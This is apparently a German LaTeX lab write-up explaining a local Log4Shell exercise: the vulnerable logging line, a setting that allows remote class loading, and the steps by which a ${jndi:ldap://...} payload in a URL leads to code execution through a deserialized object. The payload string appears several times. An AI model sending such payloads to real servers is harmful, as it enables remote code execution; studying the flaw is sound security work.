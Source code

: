 \documentclass[
	fontsize=12pt,
	paper=a4,
	numbers=noenddot,
	listof=totoc,
	listof=entryprefix,
	listof=nochaptergap,
	bibliography=totoc,
	parskip=half,
	openany
]{scrbook}
\begin{document}
\textbf{Ausgabe bei normalem Aufruf:}

\begin{lstlisting}[language=bash]
Server bereit...
11:41:11.932 [main] OFF VulnerableServer
  - Angefragte Resource: /irgendetwas
\end{lstlisting}

\textbf{Die verwundbare Zeile ist Zeile 33:}

\begin{lstlisting}[language=Java]
logger.always().log("Angefragte Resource: " + requestedRessource);
\end{lstlisting}

Hier wird die vom Benutzer kontrollierte Eingabe \texttt{requestedRessource} direkt an Log4j übergeben.
Log4j evaluiert darin enthaltene Lookup-Ausdrücke wie \texttt{\$\{jndi:ldap://...\}}.

Zusätzlich setzt Zeile 13 die Systemeigenschaft \texttt{com.sun.jndi.ldap.object.trustURLCodebase} auf \texttt{true}, was das Nachladen von Remote-Klassen über LDAP explizit erlaubt.

\section*{e) Ausführung des Exploits}

Der Exploit (\texttt{Exploit.java}) startet einen LDAP-Server auf \texttt{127.0.0.1:389}.
Wenn ein Angreifer die URL \texttt{http://127.0.0.1:8080/\$\{jndi:ldap://127.0.0.1/exe\}} aufruft, passiert:

\begin{enumerate}
	\item Der VulnerableServer URL-dekodiert die Eingabe und übergibt sie an Log4j.
	\item Log4j erkennt den \texttt{\$\{jndi:ldap://127.0.0.1/exe\}}-Ausdruck und führt einen JNDI-Lookup durch.
	\item Der Lookup kontaktiert den LDAP-Server des Angreifers auf Port 389.
	\item Der LDAP-Server antwortet mit einem serialisierten \texttt{Payload}-Objekt (Zeilen 67--81 in Exploit.java).
	\item Die JVM deserialisiert das Objekt und ruft \texttt{Payload.toString()} auf.
	\item \texttt{toString()} führt \texttt{Runtime.getRuntime().exec()} aus, was auf dem Server beliebigen Code ausführt (im Beispiel: Taschenrechner öffnen).
\end{enumerate}
\end{document}
